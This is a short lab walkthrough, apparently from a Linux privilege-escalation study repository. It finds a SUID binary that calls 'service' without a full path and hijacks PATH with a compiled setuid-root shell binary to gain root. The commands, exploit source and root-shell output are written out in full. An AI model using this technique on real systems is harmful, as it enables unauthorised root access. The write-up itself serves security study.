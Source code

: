 # Unix Shell

## 01 - Detect

It describes itself that it derives from the user's PATH environment variable and to to run the programs that doesn't require to specify and absolute path that can be exploited.

```
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
```

When the program it seems it's gonna start a apache2 webserver

```
$ /usr/local/bin/suid-env
Starting web server: apache2httpd (pid 1656) already running
.
```

We use the strings command to look any readable functions that we can analyze.

```
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

This is the main problem here the service apache2 start works but the point was it was not specified the full path. This is where the `$PATH` bash predefined variable for the shell environment that is useful for this situation. We will compile our own version of service.c and re-define the `$PATH` variable

## 02 - Exploit

```
user@debian:~$ cat service.c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
user@debian:~$ gcc -o service service.c
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# whoami && id
root
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

## 03 - Cleanup

```
root@debian:~# exit
user@debian:~$ rm service service.c
```
